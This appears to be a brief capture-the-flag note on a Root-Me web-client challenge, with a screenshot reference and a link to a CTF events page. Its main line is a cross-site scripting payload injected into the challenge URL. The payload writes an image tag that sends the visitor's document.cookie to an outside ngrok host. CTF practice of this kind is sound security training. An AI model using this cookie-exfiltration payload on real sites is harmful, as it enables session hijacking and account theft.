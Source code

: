 http://challenge01.root-me.org/web-client/ch32/<script>document.write('<img src="https://951d-2001-7c7-1180-823-48ef-3919-4642-97a8.ngrok.io?cookie=' + document.cookie + '" />')</script>

![[Screen Shot 2021-11-19 at 22.09.54.png]]

https://techlearningcollective.com/events/ctfs.html